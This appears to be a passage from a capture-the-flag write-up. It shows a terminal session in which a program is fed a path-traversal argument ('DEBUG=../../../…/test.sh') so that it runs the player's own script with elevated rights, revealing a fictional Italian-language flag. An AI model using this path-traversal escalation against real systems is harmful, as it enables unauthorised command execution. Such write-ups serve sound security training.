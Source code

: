 as it's possible to notice, the script was executed by the kernel using sudo as the user proxy and returned the flag

    anonymous@BlackoutResurrection:/var/tmp/tmp/.swp$ ./programma2 DEBUG=../../../var/tmp/tmp/.swp/test.sh
    Sending message to kernel
    Waiting for message from kernel
    ^C
    [Exit 130 (SIGINT)]
    anonymous@BlackoutResurrection:/var/tmp/tmp/.swp$ ls -la
    total 604
    drwxr-xr-x 2 anonymous anonymous   4096 Apr 26 23:17 ./
    drwxr-xr-x 3 anonymous anonymous   4096 Apr 26 22:55 ../
    -rwxr-xr-x 1 anonymous anonymous 594527 Apr 26 22:56 programma2*
    -rwxrwxrwx 1 anonymous anonymous    287 Apr 26 23:18 test*
    -rwxr-xr-x 1 anonymous anonymous     68 Apr 26 23:17 test.sh*
    anonymous@BlackoutResurrection:/var/tmp/tmp/.swp$ cat test
    Complimenti!
    Sei riuscito a localizzare il covo hacker in cui sono tenuti i dispositivi contenenti informazioni riservate della Quality Cloud Farmaceutic.

    Indirizzo: Finsbury Park, Greater London, Inghilterra
    Codice Postale: N4
    Latitudine: 51.5647
    Longitudine: -0.1064
    Precisione: 4

